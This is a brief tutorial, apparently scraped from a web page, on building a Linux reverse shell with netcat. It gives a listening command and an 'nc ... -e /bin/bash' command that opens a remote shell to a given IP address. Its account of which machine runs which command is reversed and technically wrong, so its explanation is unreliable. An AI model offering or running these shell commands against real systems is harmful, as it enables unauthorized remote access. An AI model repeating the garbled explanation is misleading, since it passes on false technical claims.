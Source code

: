 A reverse shell is a type of remote access tool that allows a remote attacker to connect to a target machine and execute commands as if they were sitting at the physical keyboard. To create a reverse shell in Linux, you can use the nc (netcat) command.

Here is an example of how you can create a reverse shell in Linux:

On the target machine, open a terminal and run the following command to start nc in listen mode on a specific port (replace 1234 with the port number you want to use):


        nc -lvp 1234
On the attacker's machine, open a terminal and run the following command to connect to the target machine and start a shell session (replace 1234 with the port number you used in the previous step, and 192.168.1.100 with the IP address of the target machine):

        nc 192.168.1.100 1234 -e /bin/bash
This will create a reverse shell and connect the attacker's terminal to the target machine's terminal, allowing the attacker to execute commands on the target machine as if they were logged in locally.

Note: Using a reverse shell for malicious purposes is illegal and can result in serious consequences. This information is provided for educational purposes only.
